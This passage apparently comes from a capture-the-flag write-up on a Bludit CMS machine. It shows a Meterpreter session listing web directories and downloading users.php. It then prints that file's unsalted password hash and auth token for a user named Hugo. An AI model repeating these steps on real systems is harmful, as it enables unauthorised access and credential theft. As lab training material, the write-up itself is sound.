```text
40755/rwxr-xr-x   4096   dir   2019-10-19 04:10:46 -0400  bl-themes
100644/rw-r--r--  900    fil   2020-05-19 06:27:40 -0400  index.php
100644/rw-r--r--  20306  fil   2019-10-19 04:10:46 -0400  install.php

meterpreter > cd bl-content
meterpreter > ls
Listing: /var/www/bludit-3.10.0a/bl-content
===========================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2020-05-19 05:10:14 -0400  databases
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  pages
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  tmp
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  uploads
40755/rwxr-xr-x  4096  dir   2020-05-19 05:03:34 -0400  workspaces

meterpreter > cd databases
meterpreter > ls
Listing: /var/www/bludit-3.10.0a/bl-content/databases
=====================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  438    fil   2020-05-19 05:03:34 -0400  categories.php
100644/rw-r--r--  3437   fil   2020-05-19 05:03:34 -0400  pages.php
40755/rwxr-xr-x   4096   dir   2020-05-19 05:03:34 -0400  plugins
100644/rw-r--r--  42844  fil   2020-05-19 05:03:34 -0400  security.php
100644/rw-r--r--  1319   fil   2020-05-19 05:03:34 -0400  site.php
100644/rw-r--r--  2276   fil   2020-05-19 05:03:34 -0400  syslog.php
100644/rw-r--r--  52     fil   2020-05-19 05:03:34 -0400  tags.php
100644/rw-r--r--  597    fil   2020-05-19 05:10:13 -0400  users.php

meterpreter > download users.php
[*] Downloading: users.php -> users.php
[*] Downloaded 597.00 B of 597.00 B (100.0%): users.php -> users.php
[*] download   : users.php -> users.php
```

In the www folder I found that a newer version of the Bludit CMS had been installed. I hoped that I would find a newer version of the database, and was not disappointed.

### Finding user creds

The updated `users.php` file contained an \(un-salted!\) hash for the user Hugo.

```text
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{ 
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
```